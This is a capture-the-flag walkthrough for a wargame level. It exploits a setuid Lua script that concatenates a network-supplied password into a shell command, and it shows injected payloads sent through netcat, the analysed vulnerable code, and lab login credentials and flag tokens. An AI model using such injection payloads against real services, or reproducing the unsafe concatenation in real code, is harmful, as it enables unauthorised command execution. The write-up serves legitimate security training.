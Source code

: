 # Level 11

## Requirements

- None

## Walkthrough

1. Login from the __attacker__'s machine.

	```
	ssh -p 4242 level11@192.168.1.32
	Password: feulo4b72j7edeahuete3no7c
	```

1. Check files.

	```sh
	> ls -l
	total 4
	-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua

	> ./level11.lua
	lua: ./level11.lua:3: address already in use
	stack traceback:
		[C]: in function 'assert'
		./level11.lua:3: in main chunk
		[C]: ?
	```

1. The script is already running. We need to analyze it.

	```lua
	#!/usr/bin/env lua

	-- Create a socket, and bind it to 127.0.0.1:5151
	local socket = require("socket")
	local server = assert(socket.bind("127.0.0.1", 5151))

	-- Hash function, taking a password as argument, calls a Shell command to hash it and returns the hash.
	function hash(pass)
		-- Is the password just concatenated into the command ?
		-- We have to try something here
		prog = io.popen("echo "..pass.." | sha1sum", "r")
		data = prog:read("*all")
		prog:close()

		data = string.sub(data, 1, 40)

		return data
	end

	while 1 do
		local client = server:accept()
		-- Ask for password
		client:send("Password: ")
		client:settimeout(60)
		local l, err = client:receive()

		if not err then
			print("trying " .. l)
			local h = hash(l)

			-- Check if password hash match
			-- But even if we get the password right, it only shows a message
			-- so nothing to exploit here, no need to reverse the hash
			if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
				client:send("Erf nope..\n");
			else
				client:send("Gz you dumb*\n")
			end
		end

		client:close()
	end
	```

1. Now we have a better understanding of what's happening, let's do some test.

	```sh
	> nc 127.0.0.1 5151
	Password: qwe
	Erf nope..

	# Try to insert something to exploit the concatenation
	> nc 127.0.0.1 5151
	Password: ; touch /tmp/exploit11; echo
	Erf nope..

	> ls -l /tmp/exploit11
	-rw-r--r-- 1 flag11 flag11 0 Aug 28 18:01 /tmp/exploit11
	```

1. Amazing, the command injection works. Get the flag.

	```sh
	> nc 127.0.0.1 5151
	Password: ; getflag > /tmp/exploit11; echo
	Erf nope..

	> cat /tmp/exploit11
	Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
	```

## Documentation

- Language: [Lua](https://www.lua.org/)
